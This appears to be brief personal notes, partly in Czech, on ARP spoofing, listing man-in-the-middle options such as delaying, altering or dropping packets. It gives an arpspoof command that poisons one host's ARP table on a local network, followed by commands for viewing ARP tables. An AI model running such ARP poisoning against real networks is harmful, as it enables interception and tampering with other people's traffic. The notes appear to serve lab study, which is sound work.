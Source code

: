 moznosti:
  delay
  zmena hodnot 
  neposlani nekterych paketu

# .250 is device where we wants to spof arp table 
# .252 arp record we want to rewrite with our mac address 
`arpspoof -i eno2 -t 192.168.88.250 192.168.88.252

linux:
`arp -a -i eno2`

windows:
`arp -a`
 
